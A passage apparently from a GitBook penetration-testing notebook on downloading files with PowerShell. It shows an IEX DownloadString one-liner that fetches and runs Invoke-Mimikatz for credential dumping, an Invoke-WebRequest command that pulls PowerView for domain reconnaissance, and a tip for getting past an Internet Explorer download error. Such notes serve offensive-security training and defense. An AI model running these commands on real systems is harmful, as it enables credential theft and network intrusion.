 {% code overflow="wrap" %}
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Invoke-WebRequest**

{% code overflow="wrap" %}
```
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption><p>You can use the aliases <code>iwr</code>, <code>curl</code>, and <code>wget</code> instead of the <code>Invoke-WebRequest</code> full name</p></figcaption></figure>

### **Common Errors with PowerShell**

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption><p>There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter -UseBasicParsing</p></figcaption></figure>
